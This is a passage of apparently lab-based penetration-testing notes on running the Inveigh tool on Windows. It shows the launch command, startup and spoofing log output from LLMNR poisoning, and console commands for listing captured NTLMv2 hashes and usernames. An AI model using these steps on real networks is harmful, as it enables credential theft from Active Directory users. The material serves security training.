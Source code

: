 
**C#  version**:  Before we can use the C# version of the tool, we have to compile the executable. After that we can run:

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]

```


- `[+]`  default option and enabled by default
- `[ ]`  disabled options 

**Console access:** Press ESC to enter/exit interactive console. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

```powershell-session
# List commands
> HELP

# view unique captured hashes
>  GET NTLMV2UNIQUE

#  see which usernames we have collected.
GET NTLMV2USERNAMES
```

